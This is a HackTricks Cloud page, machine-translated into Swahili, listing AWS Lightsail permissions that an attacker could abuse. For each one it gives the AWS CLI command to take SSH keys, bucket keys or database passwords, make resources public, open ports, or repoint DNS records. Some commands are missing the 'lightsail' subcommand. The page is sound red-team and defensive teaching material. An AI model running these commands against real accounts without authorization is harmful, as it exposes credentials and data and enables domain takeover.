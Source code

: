 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Kwa maelezo zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kwamba Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile msimbo, funguo za API na taarifa za database zinaweza kupatikana katika huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuunda funguo za SSH ili kufikia mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata akreditif za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuruhusu kubadilisha nenosiri la kufikia hifadhidata: 

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database si ya umma, unaweza pia kuifanya kuwa ya umma na ruhusa hizi na

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Kumbuka kwamba wito utafungia bandari yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa instances kwa bucket bila hati zozote za ziada.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezekano wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii, mshambuliaji anaweza kutoa upatikanaji wa kusoma kwa akaunti yake ya AWS juu ya mifuko au hata kufanya mifuko hiyo kuwa ya umma kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji kwa ECRs za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti kutoka ECR ya faragha

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (uchukuaji wa subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwenye domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (kuchukua subdomain), au kuunda rekodi ya SPF inayomruhusu kutuma barua pepe kwa kutumia kikoa hicho, au hata kuweka kikoa kikuu kwenye anwani yake ya IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa domain

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
